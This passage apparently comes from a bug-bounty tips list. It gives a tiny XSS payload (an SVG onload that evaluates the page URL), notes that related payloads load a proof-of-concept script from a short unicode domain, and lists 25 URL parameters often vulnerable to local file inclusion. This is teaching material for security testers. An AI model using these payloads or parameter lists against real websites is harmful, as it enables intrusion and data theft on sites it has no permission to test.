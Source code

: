 ```bash

<!-- If you control the URL -->
<svg/onload=eval(`'`+URL)>
```

Note that some of these XSS payloads contain ‘Ǌ.₨’ unicode string. This is a domain name (nj.rs) currently owned by [@terjanq](https://twitter.com/terjanq) with a web server serving a PoC code that would trigger an alert in an XSS condition:

![javascript alert code on nj.rs](assets/1710309234-920c44eaa304891d01d4b8703c3b3073.jpg)

This keeps the XSS payloads really tiny.

For more XSS payloads and the DEMO page, check out his designated Github repository:

-   [https://github.com/terjanq/Tiny-XSS-Payloads](https://github.com/terjanq/Tiny-XSS-Payloads)

## 10\. Top 25 local file inclusion (LFI) parameters

By [@trbughunters](https://twitter.com/trbughunters)  
Source: [link](https://twitter.com/trbughunters/status/1279768631845494787)

Here’s list of top 25 parameters that could be vulnerable to local file inclusion (LFI) vulnerabilities:

```bash
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```
